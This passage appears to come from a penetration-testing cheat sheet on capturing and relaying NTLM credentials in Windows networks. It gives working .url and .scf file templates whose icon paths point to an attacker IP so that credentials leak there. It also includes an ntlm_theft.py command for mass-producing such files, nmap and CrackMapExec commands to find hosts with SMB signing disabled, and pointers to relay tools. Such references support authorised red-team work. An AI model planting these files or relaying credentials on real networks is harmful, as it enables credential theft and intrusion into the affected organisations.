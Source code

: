 *url IconFile field*

```
[InternetShortcut]
URL=doesnotmatter
WorkingDirectory=doesnotmatter
IconFile=\\<IP>\%USERNAME%.icon
IconIndex=1
```

*scf*

```
[Shell]
Command=2
IconFile=\\<IP>\doesnotmatter\test.ico
[Taskbar]
Command=ToggleDesktop
```

The `ntlm_theft.py` Python script allows for the generation of various "theft"
files, such as `url`, `scf`, `docx`, `xlsx`, `pdf`, etc:

```
python3 ntlm_theft.py --generate all -s <IP> -f <OUTPUT_FOLDER>
```

###### Exchange Web Services (EWS) SOAP API

TODO

### NTLM authentication relay

###### Hosts with SMB signing disabled

First, a list of host with `SMB signing` must be gathered.

Either `nmap`, `CMEv4` or `PingCastle` (personal favorite) can be used to
gather a list of host with `SMB signing` disabled and output the result to a
file:

```bash
PingCastle.exe -> 5-scanner -> a-smb -> 1-all

nmap -v -sU -sS --open -oA nmap_smb_signing_off --script smb-security-mode.nse -p U:137,T:139,445 <TARGETS>
cat nmap_smb_signing_off.nmap | grep -B 14 "message_signing: disabled" | grep "Nmap scan report for" | cut -d " " -f 5 > <FILE>

cme smb <HOSTNAME | IP | CIDR | TARGETS_FILE> --gen-relay-list <FILE>
```

###### Basic relay

The `Impacket`'s `ntlmrelayx.py` or `MultiRelay.py`, that comes with the
`Responder` toolkit for example, `Python` scripts can be used to relay the
`NTLM` authentication.  

